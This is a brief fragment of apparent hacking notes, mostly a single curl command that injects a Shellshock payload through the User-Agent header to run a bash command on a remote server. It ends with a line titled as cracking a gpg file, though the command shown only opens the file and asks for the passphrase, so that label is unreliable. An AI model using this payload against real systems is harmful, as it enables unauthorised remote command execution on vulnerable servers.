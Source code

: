 $ curl -H "user-agent: ( ) { :; }; echo; /bin/bash -c 'command'" http://ip:port/path

To crack gpg file with passcode
	gpg file.gpg (a pop up will appear for the pin to enter)